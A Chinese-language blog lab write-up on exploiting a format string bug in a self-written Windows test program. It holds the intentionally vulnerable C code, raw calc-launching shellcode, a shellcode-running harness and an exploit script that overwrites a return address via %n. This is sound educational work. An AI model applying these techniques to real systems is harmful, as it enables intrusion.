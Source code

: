 ```yaml
---
layout:     keynote
title:      "windows格式化字符串漏洞探究"
subtitle:   "集Fsb漏洞构造、分析、利用的小实验"
iframe:     ""
navcolor:   "invert"
date:       2016-11-16
author:     "carter"
header-img: "img/post-bg-re-vs-ng2.jpg"
header-mask: 0.3
tags:
    - OS
    - Windows
    - pwn
---
```



### 知识点：
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

### 一. 程序代码：

```c++
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
    char buff[1024];
    FILE*f;
    
    f=fopen("flag.txt","r");
    fread(buff,1024,3,f);
    printf(buff); //触发漏洞
  return 0;
}
```

程序的流程是从flag.txt中读取字符串再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

### 二. 基本知识：

##### **1. 格式化字符串相关知识**

%x：依次打印出栈上数据
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/1.png)
%100x：指定数据打印时显示长度为100字节

%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

##### **2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴:

HKEY_LOCAL_MACHINE -->  SOFTWARE --> Microsoft --> Windows NT --> CurrentVersion --> AeDebug
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/4.png)
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

##### **3. windows7_32bit 弹计算器shellcode**
```python
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

##### **4.  如何调试shellcode**
```c++
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
    return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了

##### **5. 查看程序开启安全机制**

在immunity Debugger中，使用 
```python
!mona modules
```
可以查看程序各个加载模块对应开启的安全机制
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/5.png)
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


### 三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/6.png)
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/7.png)
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：

```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```

对比下图，可以验证说法正确性
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/8.png)

### 四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/9.png)
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/10.png)
所以我们的目的就是令：EAX=0x12FaF0  ECX=0x12FB48

### 五. 编写漏洞利用脚本
输入构造为：
- shellcode
- 相应多的%x
- 一些%nx来调整输出长度
- 需要被覆盖的地址

**exp1.py**

```python
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
    f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/11.png)
弹出可爱的计算器
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/12.png)

## 六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 --> \x3f
```

**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
[http://bbs.pediy.com/showthread.php?t=213153](http://bbs.pediy.com/showthread.php?t=213153)


